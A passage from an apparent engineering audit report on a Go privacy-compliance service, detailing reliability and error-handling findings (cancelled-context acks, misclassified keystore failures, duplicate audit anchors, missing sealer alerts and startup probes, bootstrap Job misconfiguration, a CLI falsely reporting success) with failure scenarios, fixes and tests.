`startupProbe` against a migration set applied in one transaction (OPS-CLI-CONFIG-6), and a bootstrap Job that carries no keystore configuration (OPS-CLI-CONFIG-7).

Two findings in this category are written up elsewhere and are not repeated. **TOKENS-LOOKUP-8** (register, attribute read, OTI issue/verify, consent and DSR bypassing the per-client limiter, so one credential can serialise every replica through the chain lock) is **AUTHZ-1 / TOKENS-LOOKUP-8** in §5. **DB-TXN-6** (the portal outbox reaper keyed on `created_at` instead of the unwired `claimed_at`, re-queueing and re-sending a live claim) is merged into **QUEUE-WORKER-2** in §4; the reliability half — `settleMail`'s `WHERE id=$1` with no `AND status='SENDING'` guard, letting a reaped worker overwrite the new owner's state — is covered there and in QUEUE-WORKER-4 (§6).

### QUEUE-WORKER-3 — Neither outbox worker is drained at shutdown, and both record the outcome of a delivery on the same context that authorised the claim, so an already-successful send is un-acked and its claim abandoned
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** RELIABILITY
**Location:** `internal/api/server.go:344-379` (delivery goroutine on the process ctx from `signalContext`), `:435-445` (`shutdown()`), `:446-452` (select returns immediately after); `internal/service/gdpr.go:590` (inline `DeliverPending` on the request ctx), `:636-638` (claim SELECT, no `erasure_id` filter), `:674-692` (`terminal`), `:721-726` (transient retry); `internal/service/portal.go:296-306` (transient retry), `:314-331` (`settleMail`); contrast `internal/service/files.go:249-256`

**Problem.** The delivery goroutine started at server.go:344 runs on the process context from `signalContext`. `shutdown()` (server.go:435-445) calls only `srv.Shutdown` / `portalSrv.Shutdown` with a fresh 10s `context.Background()`; there is no WaitGroup, no drain channel, and `Run` returns as soon as the HTTP servers are down. Worse than the goroutine being killed: its context is cancelled *first*, and every post-POST write reuses that same context — `settleMail`'s `Pool.Begin(ctx)` (portal.go:314-318), the portal transient `Exec(ctx)` (portal.go:302-305), `terminal`'s `Pool.Begin(ctx)` (gdpr.go:675-679) and the erasure transient `QueryRow(ctx)` (gdpr.go:721-726). All four `return` or `continue` silently on a cancelled context, so the outcome of a delivery that ALREADY happened — including a 2xx — cannot be recorded. The same shape is reachable far more often through gdpr.go:590, where `erasePerson` calls `_, _ = g.DeliverPending(ctx)` with the HTTP request context of `POST /v1/dsr/erase`, cancelled the moment the privacy officer's client disconnects or times out.

**Why it matters.** The context that authorises and bounds the CLAIM is not the same lifetime as the ack the claim makes necessary. Delivery semantics degrade to neither at-least-once nor at-most-once: the external effect can have happened with no record of it, and (on the portal side, once the reaper fires) can happen again. The codebase already contains the correct pattern for exactly this — `Files.Upload`'s compensating reap runs under `context.WithoutCancel(ctx)` with its own 30s timeout (files.go:249-256), with a comment explaining that a reap under `ctx` would be a silent no-op precisely when it is needed.

**Failure scenario.** Erasure path, no crash required:
1. `POST /v1/dsr/erase`. `erasePerson` commits, then gdpr.go:590 calls `DeliverPending(r.Context())`.
2. `DeliverPending` claims up to 100 PENDING events — not just this erasure's, because the claim SELECT is `WHERE e.status='PENDING' ORDER BY e.attempts, e.id LIMIT 100` with no `erasure_id` filter (gdpr.go:636-638) — commits them all as `SENDING` (gdpr.go:666-667), and starts POSTing them one at a time at up to `WebhookTimeout` each.
3. The operator's HTTP client gives up after 10s, or the operator hits Ctrl-C, or an ingress idle-timeout closes the connection. `net/http` cancels `r.Context()`.
4. The POST in flight aborts — but the receiving system may already have processed it and deleted the record. `g.client().Do(req)` returns an error, so `ok` is false; control falls to gdpr.go:721-726, where `UPDATE erasure_events SET attempts=attempts+1, status='PENDING' … RETURNING attempts` fails on the cancelled context and `continue` runs. **The row stays `SENDING`.**
5. Every remaining claimed event in the batch is abandoned in `SENDING` with no POST ever attempted.
6. Per QUEUE-WORKER-1 (§3) `erasure_events` has no reaper, so nothing requeues them. One privacy officer's impatient client permanently kills up to 100 erasure notifications, most of them belonging to other erasures.

SIGTERM path: identical, via server.go:344's context, on every rolling deploy.

**Impact.** Both queues lose the ack for work that was actually performed; the erasure queue loses the work item entirely. The blast radius of a single cancelled admin request is the whole 100-row claimed batch. On the portal side the (separately broken) reaper eventually requeues, so the same cancellation produces a duplicate send rather than a lost one.

**Root cause.** Two conflated lifetimes. (a) The claim's authorising context is reused for the compensating write, so cancelling the caller disables the ack the claim made necessary. (b) A background queue drain is invoked synchronously on a request goroutine with the request's context, which turns a client-side timeout into a queue-integrity event.

**Fix.** (1) Record outcomes on an uncancellable context. In `settleMail` (portal.go:314) and `terminal` (gdpr.go:674) derive `ackCtx, cancel := context.WithTimeout(context.WithoutCancel(ctx), 10*time.Second)` and use it for `Begin`/`Exec`/`AppendTx`, exactly as files.go:249-256 already does; same for the transient retries at portal.go:302 and gdpr.go:721. (2) Make the inline call at gdpr.go:590 non-blocking on the request — either drop it (the ticker picks the events up within `DeliverInterval`) or run it in its own goroutine on `context.WithoutCancel`; if it stays inline, scope its claim with `AND e.erasure_id = $1` so a cancelled admin request cannot strand other erasures' events. (3) Drain on shutdown: hold the worker in a `sync.WaitGroup`, and in `shutdown()` cancel a separate worker context and `wg.Wait()` with a bounded timeout before returning (see CONCURRENCY-CORE-5 for the four other goroutines that need the same WaitGroup).

**Test required.** Table test over both queues: start a delivery against a test webhook server that signals when it has received the body and then blocks; cancel the context passed to `DeliverPending`/`DeliverPendingMail` after the signal; assert the row reaches a terminal status (`DELIVERED`) despite the cancellation and that the audit row for the terminal transition exists. A second test drives `Server.Run`, fires SIGTERM while a delivery is in flight, and asserts `Run` does not return before the claimed row leaves `SENDING`. A third asserts that `DeliverPending` invoked from `erasePerson` with a cancelled request context leaves zero rows in `SENDING`.

### QUEUE-WORKER-5 — Transient crypto/keystore failures are classified as permanent: one unreachable signer or Vault blip marks the queued login link FAILED and destroys the only copy of the token
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** RELIABILITY
**Location:** `internal/service/portal.go:277-282` (`OpenBytes` error → `settleMail(FAILED)`), `:232-233` (claim SELECT is PENDING-only), `:662` (7-day delete of terminal rows), `:669` (reaper touches SENDING only); `internal/crypto/pii.go:101-103` (`OpenBytes` → `eng.Open`); `internal/crypto/engine.go:64-68`, `internal/crypto/keystore.go:262-277`, `:311-317` (Vault read on a cache miss); `internal/crypto/signer.go:250-254` (`"signer unreachable: %w"`), `:256-260` (5s deadline)

**Problem.** The outbox worker classifies ANY error from `p.Contacts.PII.OpenBytes` as permanent. The comment at portal.go:278-279 asserts the only cause is a retired key ("Unopenable payload (retired key): abandon, never retry") and the code jumps straight to `p.settleMail(ctx, it.id, it.kind, "FAILED")`, discarding the error entirely. That is not what `OpenBytes` can return: it is a bare passthrough to `eng.Open` (pii.go:101-103), and `Engine` has two production implementations. `LocalEngine.Open` reaches `KS.Key(ctx)` (engine.go:64-68), which under `SUNDER_KEYSTORE=vault` is an HTTP GET to Vault on any `CachingKeystore` miss (keystore.go:311-317 → :262-277) — and a cold cache after a restart is exactly when a Vault blip bites. `RemoteEngine.Open` is a unix-socket RPC that returns `fmt.Errorf("signer unreachable: %w", err)` on a failed dial (signer.go:254) and a deadline error on its 5s budget. A signer restart, a Vault reseal or failover, or a cancelled context at shutdown all produce `FAILED`.

**Why it matters.** `FAILED` is terminal: the claim SELECT takes only `PENDING` (portal.go:232-233), the reaper touches only `SENDING` (portal.go:669), and `PrunePortal` deletes the row 7 days later (portal.go:662). The sealed payload is the ONLY copy of the clear-text token — `portal_tokens` stores `hashToken()` alone (portal.go:141-144) — so there is no recovery path at all.

**Failure scenario.**
1. A citizen requests a portal login link. `Start` commits the sealed payload into `portal_outbox` (portal.go:142-150).
2. The signer process is restarted (key rotation, node drain, its own deploy) or Vault fails over.
3. Within the next `DeliverInterval` the worker claims the row, calls `OpenBytes` at portal.go:277, and gets `signer unreachable`.
4. portal.go:280 marks the row `FAILED`. **This is the point of no return** — the row is now invisible to both the claim SELECT and the reaper.
5. The citizen never receives the link. The audit chain records `portal.mail.failed` with no cause. The same applies to `erase_confirm` mail (portal.go:526-542), where the lost token is the second factor for an Article 17 erasure the citizen already asked for.

A sharper variant runs in the opposite direction: at SIGTERM the context is already cancelled when `OpenBytes` runs, so it errors → `settleMail` is attempted on the same cancelled context and also fails → the row is left `SENDING` instead (QUEUE-WORKER-3). The classification is wrong in both directions.

**Impact.** Permanent loss of queued portal mail on any transient key-service blip, with no retry and no diagnostic. Citizens are locked out of the self-service privacy portal and out of the erase-confirmation flow — the exact GDPR surfaces the portal exists to provide — until they notice and start over. Bounded by the fact that the lost link would have expired in 15 minutes anyway (`portalLoginTTL`, portal.go:47), so the citizen's recourse is a retry — which the 3-per-15-minute per-address throttle (portal.go:39-40, `allowEmailSend`) does charge for.

**Root cause.** An error-classification gap: the code assumes a single failure mode for a call that spans in-process AEAD, an out-of-process RPC and a network keystore. Go's untyped error return makes "decrypt failed" and "the signer is down" indistinguishable at the call site, and the comment froze the narrower assumption in place.

**Fix.** Distinguish permanent from transient before settling. Have `crypto` export a sentinel returned only when the AEAD `Open` itself rejects the ciphertext (`crypto.ErrDecrypt`), and wrap transport failures in an exported `crypto.ErrEngineUnavailable` — `RemoteEngine` already builds `"signer unreachable"` at signer.go:254, and `VaultKeystore.read` can wrap its HTTP errors the same way. Then at portal.go:277-282:

```go
if err != nil {
    if errors.Is(err, crypto.ErrDecrypt) || errors.Is(err, crypto.ErrKeyRetired) {
        p.settleMail(ctx, it.id, it.kind, "FAILED")   // genuinely unopenable
    } else {
        p.retryMail(ctx, it, err)                     // attempts+1, status='PENDING'
    }
    continue
}
```

Keep the `json.Unmarshal` failure (portal.go:284-287) as a separate permanent branch — it is correct as written — so the two classes are not conflated. Log the underlying error on the `FAILED` path; today it is discarded.

**Test required.** Fault-injection test using the existing `newFaultEnv` harness: queue one portal mail, point `PIIBox` at a `RemoteEngine` whose signer socket is closed, run `DeliverPendingMail`, and assert the row is `PENDING` with `attempts=1` (not `FAILED`). Restore the signer, run again, assert `DELIVERED` and exactly one send. A companion test corrupts the ciphertext byte-wise and asserts `FAILED` with no retry, proving the two classes are still distinguished.

### AUDIT-CHAIN-4 — Anchoring an unchanged chain head twice writes a second anchor row whose exported `.tsr` can never match, permanently poisoning the anchor cross-check
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** RELIABILITY
**Location:** `internal/audit/anchor.go:150-190` (`Anchor`: `INSERT INTO audit_anchor` at `:179-181`, export at `:188`), `:213-246` (`VerifyAnchors`; single-filename read at `:241`, `"missing"`/`"mismatch"` at `:244`/`:246`); `cmd/sunder/main.go:436-465` (`anchorCmd`); `internal/store/migrations/0001_*.sql` (table, no unique index on `root_hash`), `0004_*.sql` (append-only trigger)
*Correction: the filed location cited `anchor.go:139-186` / `:168-172` / `:175-183` / `:210-260`; the actual function begins at :150 and the INSERT/export/verify sites are as listed above. The mechanism is unchanged.*

**Problem.** `Anchor` unconditionally POSTs to the TSA and INSERTs a new `audit_anchor` row for whatever `Head` returns (anchor.go:179-181), with no check for "this root is already anchored" and no unique index backing one. The export filename is derived solely from the root — `filepath.Join(outDir, root+".tsr")` (anchor.go:188) — so two anchor rows sharing a root necessarily share one file, while their TSA tokens differ byte-wise (`BuildQuery` uses `-no_nonce`, but the TSA still returns a distinct serial and `genTime`). `VerifyAnchors` reads that single filename per row (anchor.go:241) and marks any byte difference `"mismatch"` (:246), which `verifyAuditCmd` counts as a hard failure. The DB INSERT is committed *before* the file is written, and the file is written with mode `0o444`, so rewriting an existing export fails with `EACCES` for a non-root owner — after the row is already durable. `audit_anchor` carries the same append-only trigger (migration 0004), so no row can ever be removed.

**Why it matters.** `file: MISMATCH with database` is the exact signal an operator is told means the anchor evidence was altered. Anchoring is the only control that catches chain-tail truncation (docs/THREAT-MODEL.md:125-126), so a permanent false positive on a routine schedule is a direct attack on the last line of tamper evidence.

**Failure scenario.** Cron runs `sunder anchor -out /anchors` daily.
1. Day 1: head H, token A. Row #1 inserted `(root=H, tsr=A)`; `/anchors/H.tsr` written with contents A, mode `0444`.
2. Day 2, with no audit row sealed in between — an idle instance, a weekend, or a stalled sealer, which freezes `Head` by construction (OPS-CLI-CONFIG-8). `Head` still returns H.
3. `Anchor` POSTs again and gets token B (distinct serial/`genTime`), and INSERTs row #2 `(root=H, tsr=B)` at anchor.go:179-181. **The row is now durable and undeletable.**
4. `os.WriteFile("/anchors/H.tsr", B, 0o444)` at anchor.go:188 returns `permission denied`; `anchorCmd` exits non-zero.
5. `VerifyAnchors` thereafter reports `anchor #1 root=H … file=ok` and `anchor #2 root=H … file=mismatch`, so `sunder verify-audit` exits non-zero with `anchor #2 … file: MISMATCH with database` **forever**. Running as root does not help: the write then succeeds and row #1 becomes the mismatching one.

The same permanent failure arises from any crash or I/O error between the committed INSERT and the export, reported as `file: MISSING from export dir`.

**Impact.** The daily anchoring cron exits non-zero on every run while the head is unchanged, and both verification surfaces permanently report the anchor evidence as altered with no way to clear it. The coupling with a stalled sealer is vicious: a stalled sealer freezes the head, so the very incident that most needs anchoring is the one that permanently corrupts its verdict.

**Root cause.** Anchoring is not idempotent in the root (no existence check, no unique index), the export filename is not unique per anchor, and the durable DB write is ordered before the external-side-effect export with no compensation for a failure of the second step.

**Fix.** Three parts.
```sql
CREATE UNIQUE INDEX audit_anchor_root_uq ON audit_anchor (root_hash);
```
(a) Before POSTing, `SELECT EXISTS(SELECT 1 FROM audit_anchor WHERE root_hash=$1)` and return a "head already anchored, nothing to do" no-op — which is also the right operational behaviour, since re-stamping an unchanged head buys no new evidence. (b) Make the export name unique per anchor (`<root>-<id>.tsr`) and have `VerifyAnchors` glob every file for a root, requiring at least one byte-exact match rather than one fixed filename. (c) Write the export under a temp name and rename after the DB commit (an orphan file is already handled as `InDB:false`), and drop `0o444` in favour of `0o644` plus a documented write-once destination, so a retry can never wedge on `EACCES`.

**Test required.** Offline test with the existing fake-TSA harness (`anchor_offline_test.go`): call `Anchor` twice with no intervening audit write and the same `outDir`, then assert (i) the second call is a no-op returning the same root with no new `audit_anchor` row, and (ii) `VerifyAnchors(ctx, pool, "", outDir)` reports `FileState=="ok"` for every row. A second test asserts that an export failure after the POST leaves no committed anchor row. No existing test in `anchor_test.go` / `anchor_offline_test.go` covers double-anchoring.

### OPS-CLI-CONFIG-8 — A stalled audit sealer is undetectable in the shipped monitoring: no alert on the gauge the threat model calls "the alarm", and `verify-audit` exits 0 with an unbounded backlog
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** RELIABILITY
**Location:** `ops/prometheus-alerts.yaml` (seven rules, none referencing `sunder_audit_unsealed_rows`); `cmd/sunder/main.go:493-494` (prints the pending count), `:509-511` (hard failure gated on sync mode), `:1214-1222` (`sealerCmd` logs and continues); `internal/api/server.go:490`, `:497` (`startUnsealedGauge` in both modes), `:596-612`; `deploy/helm/sunder/templates/sealer.yaml:11` (`replicas: 1`, no probes); `docs/THREAT-MODEL.md:150-153`
*Correction: the filed location says eight alert rules; `grep -n 'alert:' ops/prometheus-alerts.yaml` returns seven (SunderDown, SunderHighErrorRate, two latency SLOs, SunderEnumerationSuspected, SunderRateLimitedSpike, SunderAuthFailureSpike). None references the gauge, which is the point.*

**Problem.** docs/THREAT-MODEL.md:150-152 states that "the `sunder_audit_unsealed_rows` gauge is the alarm: a stalled sealer is an incident, because the window grows without bound while it is down." The gauge is exported and refreshed every 30s in both sealing modes (server.go:490, :497, :596-612), but no shipped alert rule references it — `grep -rn unsealed ops/` returns nothing. The second line of defence also passes: `verifyAuditCmd` prints `audit chain: intact (sealing mode async, N unsealed rows pending)` (main.go:493-494) and returns nil; the hard failure at main.go:509-511 is gated on `audit.Mode() == audit.ModeSync`, so the daily `verify-audit` CronJob exits 0 with any backlog under the default async posture. The dedicated sealer Deployment has `replicas: 1` and no readiness or liveness probe, so a wedged (not crashed) sealer process is never restarted either.

**Why it matters.** All three detection paths the project ships — the alert file, the CLI verifier and the Kubernetes probe — are absent for the one component whose absence silently disables tamper evidence.

**Failure scenario.** Recommended hardening enabled: `audit.sealer.enabled: true` → API pods get `SUNDER_AUDIT_SEAL_EXTERNAL=true` and run neither the sealer nor the bucket closer (server.go:502-505); the single sealer Deployment owns both.
1. The sealer's DB role loses `UPDATE` on `audit` (a role change, a Vault-rotated password, a `pg_hba` edit), or its pod lands on a node that cannot reach the database.
2. `sealerCmd` writes to stderr and `continue`s on every tick (main.go:1214-1222). **It never exits, so the pod stays `Running` and `Ready` with no probe to contradict it.**
3. From that moment every audited operation inserts a row with `hash IS NULL` (audit.go:166-172): unchained, un-anchored, and mutable in practice, since the append-only trigger permits the NULL→value sealing transition.
4. The 04:29 `verify-audit` CronJob runs, prints the growing pending count, and exits 0.
5. No alert fires. `sunder anchor` keeps succeeding because it stamps only the sealed head — which is frozen — so the daily anchor vouches for nothing new (and, per AUDIT-CHAIN-4, eventually poisons its own cross-check).
6. This continues until a human reads a stderr log line.

**Impact.** Tamper evidence for every operation is silently absent for as long as the sealer is down — the exact window the threat model calls an incident — while every automated check reports healthy.

**Root cause.** The gauge, the CLI's pending count and the alert rules were built at different times. The alert file was never extended to cover the sealing posture, and `verify-audit`'s pending-rows hard failure was scoped to sync mode (where pending genuinely means "stranded") with no equivalent staleness threshold for async mode (where pending is benign only if it is bounded and recent).

**Fix.** Three independent changes.
```yaml
- alert: SunderAuditSealerStalled
  expr: max(sunder_audit_unsealed_rows{job="sunder"}) > 10000
     or (min_over_time(sunder_audit_unsealed_rows[15m]) > 1000
         and (max_over_time(sunder_audit_unsealed_rows[15m])
              - min_over_time(sunder_audit_unsealed_rows[15m])) > 0)
  for: 10m
  labels: {severity: critical}
```
Give `verifyAuditCmd` an age-based failure independent of mode — the sealer filter already keys off `db_ts` (audit.go:283), so `SELECT count(*), min(db_ts) FROM audit WHERE hash IS NULL AND db_ts < now() - interval '15 minutes'` is available; exit non-zero when the oldest unsealed row exceeds a configurable staleness bound (default a few multiples of `SEAL_INTERVAL + SEAL_DELAY`). Add a liveness probe to sealer.yaml — an exec probe on a heartbeat file the loop touches after each successful `SealOnce` — and a `PodDisruptionBudget` given `replicas: 1`.

**Test required.** CLI test: insert unsealed `audit` rows with `db_ts = now() - interval '1 hour'`, run `verifyAuditCmd` under `SUNDER_AUDIT_SEALING=async`, and assert a non-zero error mentioning stale unsealed rows (it returns nil today). Plus a `promtool test rules` fixture driving `sunder_audit_unsealed_rows` upward and asserting `SunderAuditSealerStalled` fires.

### OPS-CLI-CONFIG-6 — No startup probe: a migration slower than ~30s makes every replica crash-loop forever instead of coming up
**Severity:** MEDIUM | **Confidence:** VERY LIKELY | **Verdict:** CONFIRMED | **Category:** RELIABILITY
**Location:** `deploy/helm/sunder/templates/deployment.yaml:35-47` (no `startupProbe`, no `initialDelaySeconds`, no `failureThreshold` on either branch); `cmd/sunder/main.go:93-101` (`serve`: `Migrate` → `api.New` → `srv.Run`); `internal/store/store.go:59-87` (all pending migrations in one transaction under a blocking advisory lock)

**Problem.** `serve` runs `st.Migrate(ctx)` to completion before `api.New` and before `ListenAndServe` (main.go:93-101), so neither `/healthz` nor the TCP port answers while migrations run. The chart defines only `readinessProbe` and `livenessProbe`, each with nothing but `periodSeconds` (5 and 10) on both the mTLS and non-mTLS branches, so Kubernetes applies the defaults `initialDelaySeconds: 0` and `failureThreshold: 3`: liveness starts probing immediately and kills the container after three consecutive failures at a 10s period — roughly 30 seconds after start. There is no `startupProbe`, which is the mechanism that exists precisely to give slow initialization a longer budget. `store.Migrate` applies the whole pending set inside one transaction (store.go:59-87), so a kill rolls it all back and records nothing in `schema_migrations`.

**Why it matters.** Startup work shares the steady-state liveness budget, and the work is not incremental, so retrying cannot make progress.

**Failure scenario.** An upgrade adds — or a fresh install on a large restored database first applies — a migration that touches a big table. The shipped set already contains two: `0021_audit_decoupled_sealing.sql:27-33` disables `audit_no_update` and backfills `chain_seq` across the entire `audit` table, and `0023_derived_search_tokens.sql:30` builds `person_tokens_search_idx` non-concurrently (the repo's own scale test cites 26.8M contacts).
1. Pod A starts, takes `pg_advisory_xact_lock(0x53554E4D)` (store.go:64) and begins the index build.
2. Pod B starts and blocks on the same advisory lock.
3. At t≈30s the kubelet's liveness probe has failed three times on both pods and SIGKILLs them. **Pod A dies mid-`Exec`, so its transaction rolls back and no migration is recorded.**
4. Both pods restart and repeat from zero, indefinitely.

**Impact.** A rollout that should be a slow-but-successful upgrade becomes a permanent outage with no schema progress and no obvious cause in the logs — the pods die inside `Exec`, so the last line is the startup banner. Because the whole set is one transaction, the deployment cannot converge no matter how many times it retries.

**Fix.** Add a startup probe and let liveness take over afterwards:
```yaml
startupProbe:
  tcpSocket: {port: http}
  periodSeconds: 10
  failureThreshold: {{ .Values.startupProbe.failureThreshold | default 60 }}   # 10 minutes
livenessProbe:
  httpGet: {path: /healthz, port: http}
  periodSeconds: 10
  failureThreshold: 3
```
Expose the budget as a value so an operator with a large database can raise it. Better still, split the concern: run migrations as a Helm `pre-upgrade`/`pre-install` Job (`args: ["migrate"]`, `backoffLimit: 0`) pinned to `image.tag`, and have `serve` verify rather than apply — which also resolves OPS-CLI-CONFIG-5 (§6).

**Test required.** A `helm template` assertion that a `startupProbe` is rendered on the Deployment on both probe branches. For the binary side, a Go test injecting a migration whose `Exec` sleeps longer than the probe budget and asserting the process still reaches `ListenAndServe`; more practically, assert that `serve` logs an "applying N migrations" line before starting, so a crash-loop cause is diagnosable at all.

### OPS-CLI-CONFIG-7 — `provision.sh`'s bootstrap Job carries no keystore configuration: it falls back to the file driver on a read-only root filesystem and cannot complete for the chart's only supported keystore
**Severity:** MEDIUM | **Confidence:** VERY LIKELY | **Verdict:** CONFIRMED | **Category:** RELIABILITY
**Location:** `deploy/provision/provision.sh:111-113` (`envFrom: [{secretRef: {name: sunder-db}}]`), `:114-116` (only `SUNDER_BOOTSTRAP_PURPOSES`), `:117-121` (`readOnlyRootFilesystem: true`), `:129-134` (failure handling); `cmd/sunder/main.go:1059-1062` (`bootstrapCmd` → `api.OpenEngine(cfg)` → `ring.EnsureAll` before any client transaction); `internal/api/server.go:58-68` (`OpenKeystore` defaults to `FileKeystore`); `internal/config/config.go:167-168` (`SUNDER_KEYSTORE` defaults `"file"`, path `"./keystore"`); `internal/crypto/keystore.go:108-115` (`MkdirAll`, then `O_WRONLY|O_CREATE|O_EXCL`); `deploy/helm/sunder/templates/deployment.yaml:1-3` (chart hard-fails on any non-vault keystore)

**Problem.** The chart refuses to render for any `keystore.type` other than `vault` (deployment.yaml:1-3 — `{{- fail "this chart supports keystore.type=vault only …" }}`), and `deploy/provision/values.example.yaml:11-19` sets `type: vault`. But the bootstrap Job the script generates injects only the `sunder-db` secret plus `SUNDER_BOOTSTRAP_PURPOSES` — no `SUNDER_KEYSTORE`, no `SUNDER_VAULT_ADDR`, no `SUNDER_VAULT_TOKEN`, no `SUNDER_SIGNER_SOCKET`. `config.FromEnv` therefore yields `Keystore: "file"` and `KeystorePath: "./keystore"` (config.go:167-168), `OpenKeystore` takes its `default:` branch and builds a `FileKeystore` (server.go:65-66), and `bootstrapCmd` calls `ring.EnsureAll` (main.go:1061) against a keystore rooted at a directory that exists in the distroless runtime image but lies on the container root filesystem — which the Job mounts read-only.

**Why it matters.** The Deployment gets its keystore env from the chart's `sunder.env` template; the Job was written by hand in a shell script and could not reuse it. The two drifted, and nothing tests the Job's env.

**Failure scenario.**
1. `provision.sh acme values-acme.yaml --db-url …` runs `helm upgrade --install --wait`; the API pods come up with the Vault env and `EnsureAll` writes the five v1 keys into Vault.
2. The script creates the bootstrap Job (provision.sh:98-124).
3. `bootstrapCmd` migrates (already applied, no-op), then `EnsureAll` → `FileKeystore.Ensure("hmac-email/v1")` → `os.ReadFile("keystore/hmac-email_v1.key")` fails → `os.MkdirAll(f.Dir, 0o700)` on the existing `/keystore` succeeds → `os.OpenFile(lockPath, O_WRONLY|O_CREATE|O_EXCL, 0o600)` returns `EROFS`. **`EROFS` is not `os.IsExist`, so keystore.go:113-115 returns it rather than taking the wait-for-rename path.**
4. `bootstrapCmd` returns `key bootstrap: …` at main.go:1062 — before the client transaction is even opened — so the Job fails.
5. `provision.sh:129-134` prints "bootstrap FAILED - the instance is NOT provisioned" and exits 1, after the namespace, the secret and the Helm release have already been created.

If `readOnlyRootFilesystem` were ever relaxed, the failure inverts into something worse: the Job silently mints five throwaway file keys inside a pod that is about to be deleted (silently, per OPS-CLI-CONFIG-1 in §3) while the real Vault material is untouched, and creates the admin client anyway.

**Impact.** The documented managed single-tenant provisioning path (docs/PROVISIONING.md) cannot complete: every customer onboarding stops at the bootstrap step. The script header's "a partial provision must never report success" goal is met only because the failure is total.

**Root cause.** The Job was specified as "bootstrap needs the database" and given `envFrom: sunder-db`, but `bootstrapCmd` also opens a crypto engine and ensures key material, which needs the same keystore configuration the Deployment receives. The chart's env helper is a template, not a rendered ConfigMap, so the shell script could not reuse it.

**Fix.** Give the Job the keystore env the Deployment has. Cleanest: render the API env into a `sunder-env` ConfigMap in the chart (`{{ include "sunder.env" . }}`) and have both the Deployment and the Job consume it via `envFrom`, so the two cannot drift again. Minimal, at provision.sh:114-116:
```yaml
            - {name: SUNDER_KEYSTORE, value: vault}
            - {name: SUNDER_VAULT_ADDR,  value: "${VAULT_ADDR}"}
            - {name: SUNDER_VAULT_MOUNT, value: "${VAULT_MOUNT}"}
            - name: SUNDER_VAULT_TOKEN
              valueFrom: {secretKeyRef: {name: sunder-vault, key: token}}
```
reading the values from the same file the script already parses with `read_value`. Independently, make `bootstrapCmd` skip `EnsureAll` when every live key version already resolves, so a bootstrap re-run needs read access only.

**Test required.** A kind-based e2e (or `helm template` + `kubectl apply --dry-run=server`) that renders the Job and asserts `SUNDER_KEYSTORE` is present. A cheaper regression: a Go test running `bootstrapCmd` with `SUNDER_KEYSTORE_PATH` pointed at a directory chmod'ed `0500`, asserting the error mentions the keystore — documenting that bootstrap requires a writable or reachable keystore.

### OPS-CLI-CONFIG-10 — `sunder client grant` reports success for a client id that does not exist, and applies its updates without a transaction
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** ERROR_HANDLING
**Location:** `cmd/sunder/main.go:211-283` (`clientGrantCmd`); UPDATEs at `:241-245`, `:259-265`, `:268-270`, `:276-279`; unconditional success print at `:281`; `:196-209` (`checkUnlockAgainstExpiry` — the only existence check, and only for `admin.unlock`); contrast `internal/auth/auth.go:348-350` and `cmd/sunder/main.go:1004-1006`, which do check `RowsAffected`

**Problem.** None of the four UPDATE statements checks `tag.RowsAffected()`, and the command ends with `fmt.Printf("client %q updated\n", *id)` (main.go:281) followed by `return nil`, unconditionally. The only path that can notice a missing client is `checkUnlockAgainstExpiry`, whose `QueryRow` returns `ErrNoRows` — but it short-circuits at main.go:197-199 unless the requested action set contains `auth.ActAdminUnlock`, which is true only for `-role admin` and an explicit `-add-actions admin.unlock`. Every other invocation (`-role readonly`, `-role service`, `-role privacy-officer`, any other `-add-actions`, `-attributes`, `-clear-attributes`) affects zero rows and prints success. Invoking it with `-id` alone and no mutation flag issues no statement at all and still prints "updated". Separately, the role/action UPDATE and the attribute UPDATE are independent `Pool.Exec` calls with no enclosing transaction, so a failure of the second leaves the first applied.

**Why it matters.** This is the operator's privilege-reduction tool. It reports a security-relevant change as applied when nothing changed, and — per OPS-CLI-CONFIG-3 (§5) — writes no audit row that could contradict it later.

**Failure scenario.**
1. An operator tightening a live integration types `sunder client grant -id crm-prod -role readonly`; the actual client id is `crm_prod`.
2. `checkUnlockAgainstExpiry` returns immediately at main.go:197-199 because the `readonly` preset contains no `admin.unlock`.
3. `UPDATE clients SET role=$2, allowed_actions=$3 WHERE client_id=$1` (main.go:241-245) matches zero rows. **`tag.RowsAffected()` is never read.**
4. main.go:281 prints `client "crm-prod" updated`; the command exits 0.
5. The operator, the change ticket, or the CI pipeline that runs this as a step records the privilege reduction as done. `crm_prod` retains its previous action set indefinitely, and no audit row exists to reveal it.

**Impact.** A privilege change believed to have been applied was not, with an explicit success message and a zero exit code asserting otherwise. In an automated pipeline the false success propagates with no human reading the output. The non-transactional pair also permits a half-applied grant (new role, old attribute allowlist).

**Root cause.** The command was written as a sequence of fire-and-forget UPDATEs. `RowsAffected` is checked elsewhere in the codebase where it matters (`RotateSecret` at auth.go:348-350, `issuer remove` at main.go:1004-1006) but was not applied here, and `checkUnlockAgainstExpiry` — the one statement that would have caught a missing row — is gated on an unrelated condition.

**Fix.** Wrap the whole command in one transaction and start with an existence check that doubles as the lock:
```go
tx, err := st.Pool.Begin(ctx)
if err != nil { return err }
defer func() { _ = tx.Rollback(ctx) }()
var expires *time.Time
if err := tx.QueryRow(ctx,
    `SELECT credential_expires_at FROM clients WHERE client_id=$1 FOR UPDATE`, *id).Scan(&expires); err != nil {
    if errors.Is(err, pgx.ErrNoRows) { return fmt.Errorf("client %q not found", *id) }
    return err
}
```
Use `expires` for the `admin.unlock` rule instead of `checkUnlockAgainstExpiry`, which today reads the expiry on one connection and updates on another. Return an error when no mutation flag was supplied at all. Run all four UPDATEs on `tx`, add the `audit.AppendTx` call from OPS-CLI-CONFIG-3 inside the same transaction, and commit.

**Test required.** `cmd/sunder` test asserting `run("client", []string{"grant", "-id", "does-not-exist", "-role", "readonly"})` returns a non-nil error mentioning "not found" (it returns nil today), and that `run("client", []string{"grant", "-id", "existing"})` with no mutation flag also errors. Plus a test that a failing attribute update rolls back a preceding role change.

### FILES-STORAGE-5 — Global 30s Read/Write timeouts make the advertised file sizes unreachable, and the upload semaphore wait is charged against the same budget
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** RELIABILITY
